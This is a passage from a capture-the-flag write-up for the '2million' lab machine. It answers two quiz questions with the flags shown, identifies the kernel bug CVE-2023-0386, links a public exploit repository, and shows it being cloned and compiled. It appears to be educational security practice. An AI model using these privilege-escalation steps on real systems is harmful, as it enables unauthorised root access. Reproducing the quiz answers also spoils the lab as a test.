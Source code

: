 Well, according to this email, it's a request to update the OS on the web server. The sender seems concerned as several kernel vulnerabilities (CVEs) have been published. They seem particularly worried about one of them (the one concerning OverlayFS / Fuse).

We have also obtained the answer to the question:

**Answer:** `ch4p@2million.htb`

## Q12 - CVE ID

**Reminder:** *What is the 2023 CVE ID of a vulnerability that allows an attacker to move files in the Overlay filesystem while retaining metadata such as owner bits and SetUID?*

### Privilege Escalation

According to the previous email, the system would be vulnerable to a kernel exploitation.

Let's check the Linux kernel version:

```bash
(remote) www-data@2million:/etc$ uname -r
5.15.70-051570-generic
```

To remember: Linux kernel version → `5.15.70`

By searching a bit on the Internet, we quickly come across `CVE-2023-0386`, a kernel vulnerability allowing to become root (privilege escalation).

First link found: https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/

I also found a GitHub exploit that seems reliable (403 stars):

https://github.com/xkaneiki/CVE-2023-0386

**Answer:** `CVE-2023-0386`

## Q13 - Root Flag

**Reminder:** *Submit the flag located in the root's home directory.*

Let's start by cloning the GitHub repo to get the files necessary for exploiting `CVE-2023-0386`:

```bash
git clone https://github.com/xkaneiki/CVE-2023-0386.git
Cloning into 'CVE-2023-0386-main'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 24 (delta 7), reused 21 (delta 5), pack-reused 0 (from 0)
Receiving objects: 100% (24/24), 426.11 KiB | 3.44 MiB/s, done.
Resolving deltas: 100% (7/7), done.
```

Well, now that we have what we need, let's try to compile the exploit using the `make` command:

```bash
# Problem:
make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c:3:10: fatal error: fuse.h: No such file or directory
3 | #include <fuse.h>
| ^~~~~~~~
compilation terminated.
make: *** [Makefile:2: all] Error 1
# Solution:
sudo apt install libfuse-dev
```
